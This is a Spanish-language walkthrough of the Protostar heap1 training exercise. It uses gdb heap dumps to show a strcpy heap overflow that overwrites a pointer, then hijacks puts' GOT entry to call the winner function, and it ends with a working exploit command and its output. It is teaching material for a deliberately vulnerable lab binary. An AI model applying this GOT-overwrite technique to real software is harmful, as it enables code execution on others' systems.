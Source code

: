 # Heap buffer overflow

[heap1](#https://exploit.education/protostar/heap-one/)


Para entender esto es muy importante ver como funciona el [heap](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Estructura%20de%20un%20binario.md#el-heap)

```console
(gdb) disas main
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    0x14, [esp]

(gdb) b *0x080484ce # Ponemos un breakpoint despues del primer malloc
(gdb) b *0x080484e8 # Tambien otros con los otros 3 mallocs y el strcy (0x080484fd, 0x08048517, 0x0804853d, 0x0804855a)
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF 0000111122223333
(gdb) info proc map   
         0x804a000  0x806b000    0x21000          0           [heap]   # El heap está en  0x804a000

(gdb) define hook-stop
>x/64wx 0x804a000  # Vamos a observar como va evolucionando el heap
>end

# Primer malloc c9 -> ce
0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000

# Segundo malloc e3 -> e8
0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000

(gdb) set $i1 = (struct internet*)0x804a008   # Tambien observaremos el struct u objeto "internet"

# Tercer malloc f8 -> fd
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a030:      0x00000000      0x00020fd1      0x00000000      0x00000000

(gdb) p *$i1   # internet = {priority = 1, name = 0x804a018 ""}
 
Cuarto malloc 12 -> 17
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x00000000
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

Strcpy 38 -> 3d
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
0x804a020:      0x43434343      0x44444444      0x45454545      0x46464646
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

(gdb) p *$i1 
$6 = {priority = 1, name = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"}
```
Como se puede ver el strcpy ha empezado a escribir en  0x0804a018, pero al no acabarse (overflow), ha desbordado el chunk siguiente, en concreto el que 
correspondia al segundo objeto, la parte de nombre y que almacenaba la dirección donde se escribiría este (dada por el malloc). Por tanto colpasa con 
un SEGFAULT ya que la memoria "0x46464646" no existe (las "F")

Es decir, el primer argumento "AAAABBBBCCCCDDDDEEEEFFFF" acaba siendo "¿Donde escribir?" por ser taaan largo.

```console
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII 0000111122223333
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff8ad "0000111122223333") at strcpy.c:40
```
El segundo argumento por tanto es ¿que escribir? Y aquí es como podemos abusar de la [Global Offset Table](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Estructura%20de%20un%20binario.md#global-offset-table)
> tabla donde estan las direcciones de las funciones, las escribe una funcion del sistema,

Podemos escribir nosotros la GOT con direccion de la funcion que nos de la gana ejecutar en lugar de la funcion buena. En este caso funcion winner
en vez de puts, el sistema se creera que la direccion que hay escrita es la de puts, no llamara a la funcion que escribe la de puts original y saltará
ahí.

```console
[cucuxii]:$ objdump -D ./heap1
08048494 <winner>:        # -> \x94\x84\x04\x08
[cucuxii]:$ gdb ./heap1
(gdb) disas main
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
0x080483cc <puts@plt+0>:        jmp    *0x8049774   # -> \x74\x97\x04\x08

(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1657877687   # echo -ne -> sin salto de linea y formato bytes
```


